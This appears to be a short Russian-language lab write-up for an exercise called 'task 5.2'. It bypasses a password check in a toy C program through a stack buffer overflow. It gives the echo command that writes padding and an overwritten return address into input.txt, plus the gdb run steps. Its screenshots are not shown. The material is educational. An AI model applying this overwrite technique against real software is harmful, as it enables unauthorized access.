 # Решение задачи про взлом (5.2)

**1. Узнаем адрес возврата, сохраненный в ф-ии IsPassOk, который нужно перезаписать:**
![адрес возврата](images/adres_vozvrata.jpg)

**2. Узнаем адрес строки "Access granted":**
![адрес строки](images/adres_stroki.jpg)

**3. Запишем необходимое кол-во байт в файл input.txt:**

`` `echo -ne "12345678901234567890\xd8\x11\x40\00" > input.txt` ``

Пояснение: 20 байт = массив символов + сохр. rbp.

**4. Запуск программы:**

<pre> 
(gdb) b 30 
Breakpoint 1 at 0x4011fa: file task5.2.c, line 31. 
(gdb) r < input.txt  </pre>

**Результат:**

![результат](images/result.jpg)
